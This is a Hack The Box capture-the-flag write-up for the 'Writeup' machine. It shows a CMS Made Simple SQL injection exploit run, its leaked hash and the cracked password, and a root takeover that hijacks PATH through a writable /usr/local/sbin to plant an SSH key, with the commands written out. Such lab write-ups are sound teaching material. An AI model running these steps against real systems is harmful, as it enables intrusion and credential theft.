 ```yaml
---
layout: default
title: "writeup@hackthebox"
date: 2020-02-03
permalink: /hackthebox/writeup/
categories: hackthebox sqli linux web
image: writeup.png
---
```


Writeup was one of the first boxes I did when I joined Hackthebox. It definitely helped to introduce me to basic web enum skills without relying on scripts, exploit finding and local privilege escalation. It had a very interesting path to root, which was tricky to spot but fun to exploit.
<!--more-->
**Summary**
**User** - A vulnerability in an open-source content management system allows us to gather hashed credentials, which can be cracked using a wordlist.

**Root** - An MOTD script is run as root when the user account is logged into, which we can take control of.
## User
### Enumeration
We start off with a standard `nmap` scan. Normally I'd leave one running to scan all ports aggressively, but it wasn't necessary in this case.
```
root@clubby789:~# nmap writeup.htb -v
[ ... ]
Discovered open port 80/tcp on 10.10.10.138 <- Web (HTTP)
Discovered open port 22/tcp on 10.10.10.138 <- SSH
```
We'll start of by adding `10.10.10.138 writeup.htb` to our /etc/hosts file to make accessing this site easier.
### Website
Upon visiting `writeup.htb` we are greeted with this page: 
![Main page](/assets/writeup1.png)

So we've got DDoS protection in play. If we produce too many 40x errors, we'll get temporarily banned, which means no automated scanners. At this point, I guessed urls until I came across the fairly obvious `/writeup/`.
![Writeups](/assets/writeup2.png)

A quick read of the HTML finds this in the header:
 `<meta name="Generator" content="CMS Made Simple - Copyright (C) 2004-2019. All rights reserved.">`. At the time, I spotted this quicker because of a very useful Firefox extension [Wappalyzer](https://www.wappalyzer.com/), which identifies many of the client and server-side technologies in use on many sites.
 
### CMSMadeSimple
 After a short search, I found [this script](https://www.exploit-db.com/exploits/46635), which exploits a SQL injection vulnerability in versions of CMSMS 2.2.9 and below. 
```
root@clubby789:~/boxes/writeup# python cms.py -u http://writeup.htb/writeup
[+] Salt for password found: 5a599ef579066807
[+] Username found: jkr
[+] Email found: jkr@writeup.htb
[+] Password found: 62def4866937f08cc13bab43bb14e6f7
```
The script has a built-in function to crack passwords, showing that the format of the hashes was `MD5(PASS+SALT) = HASH` (I found the script to be slow so I dropped the hashes into Hashcat).
`62def4866937f08cc13bab43bb14e6f7:5a599ef579066807` -> `raykayjay9`

```
root@clubby789:~/boxes/writeup# ssh jkr@writeup.htb 
jkr@writeup.htb's password: 
[ ... ]
user.txt
jkr@writeup:~$ cat user.txt 
d4e493....
```
And we've owned user.

## Root
### Local Enumeration
This part was definitely tricky without being on the free servers. Luckily, I was at the time, and was able to take advantage of two things: 

 - Somone had uploaded `pspy64s`, an excellent tool for discovering Cron jobs and other time-based things that may be hard to spot
 - Frequent SSH logins
If I setup two terminal panes, one with `pspy64s` and log in with SSH on the other, we see this:
![Pspy Output](/assets/writeup3.png)
The important part is 
`sh -c /usr/bin/env -i PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin run-parts --lsbsysinit /etc/update-motd.d > /run/motd.dynamic.new`:

Every time `jkr` logs in over SSH, this command is run as root!

### Command Hijacking
Let's break this down: 
- `sh -c` runs everything after `-c` in `sh`
- `/usr/bin/env -i PATH=.....` sets the PATH to the given argument.
- `run-parts --lsbsysinit /etc/update-motd.d > /run/motd.dynamic.new` runs every script in the directory `/etc/update-motd.d`, and pipes the output to the MOTD file.

Inside this directory, we find a single file, `10-uname`, which simply runs:
```
#!/bin/sh
uname -rnsom
```
This directory and all its contents are owned by root and not writable, so no luck there. Let's look into the PATH that gets set, and see if we can hijack anything there. I quickly found I could write files to `/usr/local/sbin/`. Why's this important? Here's a diagram:
```
   writable                       actual location of uname
      |                                     |
      V                                     V                                 
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
```
As `uname`'s absolute path is not specified, the system will iterate through the given path to find it, using the first instance it finds. I'll demonstrate this with a quick POC: 
```

jkr@writeup:/tmp$ echo "touch /tmp/test" > /usr/local/sbin/uname
jkr@writeup:/tmp$ chmod +x /usr/local/sbin/uname
[ ... ]

jkr@writeup:/tmp$ ls /tmp/test -la
-rw-r--r-- 1 root root 0 Feb  3 16:16 /tmp/test
```
The file is owned by root, which means we have RCE! From here, it's a quick step to root. I uploaded my public key to `/home/jkr/.ssh/authorized_keys`, ran `echo "mkdir /root/.ssh/; cp /home/jkr/.ssh/authorized_keys /root/.ssh/authorized_keys" > /usr/local/sbin/uname; chmod +x /usr/local/sbin/uname` to create my script, then logged in to `jkr` once more (quickly, as the script gets cleared pretty often). I was then able to log out, and log back in as root!
```
root@clubby789:~# ssh writeup-root 
[ ... ]
root@writeup:~# ls
bin  root.txt
root@writeup:~# cat root.txt 
eeba47f.....
```
And we've owned root

## Final Notes
### SSH Tricks
Recently I've started making use of the SSH config file, to speed up logging in over SSH. Here's what mine looked like for this box:
```
Host writeup
	HostName 10.10.10.138
	User jkr
Host writeup-root
	HostName 10.10.10.138
	User root
```
This allows me to do `ssh writeup` or `ssh writeup-root`. After uploading my public key to `~/.ssh/authorized_keys`, this means I don't even need to enter a password.
### Cleanup script
I'm always interested in seeing how box creators keep their machines stable for other players. While in /root, I noticed `cleanup.pl`, which looks like this:
```
root@writeup:~# cat bin/cleanup.pl 
#!/usr/bin/perl
my $age = 60;
while ($_ = glob('/usr/local/sbin/* /usr/local/bin/*')) {
  next if -d $_;
  my $mtime = (stat($_))[9];
  # delete files older than 3 minutes
  # to try to not spoil others
  if(time-$mtime > $age) {
    unlink($_);
  }
}
```
This checks the age of all files in `/usr/local/sbin (or /usr/local/bin)` and deletes any older than 1 minute ( not 3 as advertised).
